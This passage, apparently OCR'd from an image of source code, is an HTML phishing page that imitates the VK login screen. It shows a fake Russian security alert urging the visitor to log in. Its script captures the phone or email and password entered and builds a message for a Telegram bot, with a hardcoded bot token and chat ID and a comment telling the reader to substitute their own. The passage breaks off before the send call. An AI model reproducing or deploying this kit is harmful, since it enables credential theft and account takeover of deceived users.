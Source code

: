         }
        .btn:hover {
            background-color: #0066cc;
        }
        .footer-links {
            margin-top: 20px;
            font-size: 13px;
        }
        .footer-links a {
            color: #2a5885;
            text-decoration: none;
            margin: 0 5px;
        }
        .footer-links a:hover {
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="https://vk.com/images/logo_enter.png" alt="VK Logo" class="logo">
        <div class="alert">
            ВНИМАНИЕ: Обнаружена подозрительная активность. Войдите для проверки безопасности.
        </div>
        <form id="login-form" method="POST">
            <div class="input-group">
                <label for="phone">Телефон или email</label>
                <input type="text" id="phone" name="phone" required autofocus>
            </div>
            <div class="input-group">
                <label for="password">Пароль</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit" class="btn">Войти</button>
        </form>
        <div class="footer-links">
            <a href="#">Забыли пароль?</a>
            <a href="#">Регистрация</a>
        </div>
    </div>

    <script>
        document.getElementById('login-form').addEventListener('submit', function(e) {
            e.preventDefault();
            
            // Собираем данные
            const phone = document.getElementById('phone').value;
            const password = document.getElementById('password').value;
            
            // Отправляем данные на сервер (здесь - на Telegram бота)
            // Замените BOT_TOKEN и CHAT_ID на свои
            const botToken =8120183373:AAGtkrdTmi7LqO6nZqFufwEOdpF71A7rkLY;
            const chatId =156782107;
            const message = `Новые данные! Телефон: ${phone}, Пароль: ${password}`;
            